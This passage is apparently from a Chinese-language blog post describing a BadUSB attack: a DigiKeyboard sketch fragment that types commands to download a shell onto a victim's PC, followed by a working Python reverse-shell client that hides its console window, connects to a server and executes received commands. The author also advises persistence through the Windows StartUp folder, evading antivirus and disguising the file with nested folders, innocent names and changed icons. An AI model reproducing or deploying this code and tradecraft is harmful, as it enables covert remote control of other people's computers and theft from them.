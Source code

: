 ```
DigiKeyboard.delay(100);
DigiKeyboard.sendKeyStroke(KEY_ENTER);
}

void loop() {


}
```

自行修改里面的地址为自己服务器的shell地址，目前在我电脑上是能够成功执行的，改天拿我基友电脑上试试。当然我觉得还是有很多不足的地方。

一 是那个2分钟等待时间有点太长了，不仅如此还不能变通。我测试了几次下载时间都在一分半钟左右，shell大小大概10mb，而这个只能模拟键盘不能判断是否下载完成，所以这个两分钟是否合适还是个未知数。

二 是开机启动的问题，看了一下，只要将应用的快捷方式放入以下路径就可以加入开机启动项，且默认启用

`C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp`

三 还是这个shell不太完善。倒是不会被查病毒查出来，但是客户端与服务端通讯都是一次性的。准备后续按照聊天室那个模子整个动态多shell连接的服务端。

四 是这样操作的话感觉能做的还是很有限，不如msf方便且解决不了杀软的问题，有什么异常操作该动态拦截还得动态拦截。要么就还是得把功能做全一点，直接一把梭（会不会有几百mb的shell出现233333

五 是隐蔽性的问题，不知道为什么如果改保存路径为c盘的话会报错，就只能下到其他盘，这时候给整些花里胡哨的盘名那就没办法了。还有可以多创点文件夹一层一层的包起来，然后改个正常点的名字，图标也换换，我觉得问题应该不大。

还是把现在的代码发出来

- client---放在被攻击端上

```
from socket import *
from os import *
import win32api, win32gui   
ct = win32api.GetConsoleTitle()   
hd = win32gui.FindWindow(0,ct)   
win32gui.ShowWindow(hd,0) 
#客户端接收执行命令

c=socket(AF_INET,SOCK_STREAM)#IVP4 寻址  tcp协议
c.connect(('127.0.0.1',6666))#连接地址
while True:

    cmd=c.recv(10240)
    cmdstr=cmd.decode()
    if cmdstr=='exit':
        c.close()
        break
    try:
        result=popen(cmdstr).read()
        if result == '':
            result='[-] ERROR_COMMAND'
    except:
        result='[-] ERROR_COMMAND'
    c.send(result.encode())

```
